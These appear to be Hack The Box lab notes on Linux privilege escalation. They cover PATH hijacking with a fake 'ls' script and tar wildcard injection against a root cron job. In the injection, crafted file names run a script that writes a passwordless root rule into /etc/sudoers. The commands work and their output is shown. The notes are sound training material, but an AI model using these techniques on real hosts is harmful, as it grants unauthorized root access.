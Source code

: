 # 🍯 Environment-based Privilege Escalation

[PATH](http://www.linfo.org/path\_env\_var.html) is an environment variable that specifies the set of directories where an executable can be located. An account's PATH variable is a set of absolute paths, allowing a user to type a command without specifying the absolute path to the binary.

```shell-session
echo $PATH
```

Creating a script or program in a directory specified in the PATH will make it executable from any directory on the system.

Adding `.` to a user's PATH adds their current working directory to the list. For example, if we can modify a user's path, we could replace a common binary such as `ls` with a malicious script such as a reverse shell. If we add `.` to the path by issuing the command `PATH=.:$PATH` and then `export PATH`, we will be able to run binaries located in our current working directory by just typing the name of the file (i.e. just typing `ls)`

```shell-session
htb_student@NIX02:~$ PATH=.:${PATH}
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH

.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

```shell-session
htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls

PATH ABUSE!!
```

## Wildcard Abuse

A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions.\


<table data-header-hidden><thead><tr><th width="143"></th><th></th></tr></thead><tbody><tr><td><strong>Character</strong></td><td><strong>Significance</strong></td></tr><tr><td><code>*</code></td><td>An asterisk that can match any number of characters in a file name.</td></tr><tr><td><code>?</code></td><td>Matches a single character.</td></tr><tr><td><code>[ ]</code></td><td>Brackets enclose characters and can match any single one at the defined position.</td></tr><tr><td><code>~</code></td><td>A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.</td></tr><tr><td><code>-</code></td><td>A hyphen within brackets will denote a range of characters.</td></tr></tbody></table>

&#x20;the `tar` command, a common program for creating/extracting archives. In the man of the tar command we can see interesting stuff ->

```shell-session
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
```

The `--checkpoint-action` option permits an `EXEC` action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.)

Let's say we have a cron job, which is set up to back up the `/home/htb-student` directory's contents and create a compressed archive within `/home/htb-student`.

```shell-session
mh dom mon dow command
*/01 * * * * cd /home/htb-student && tar -zcf /home/htb-student/backup.tar.gz *
```

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.

```shell-session
htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb-student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" > --checkpoint=1
```

Then once the cronjob runs we can look at our new sudo privileges:

```shell-session
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
```

## Escaping Restricted Shells

\


\
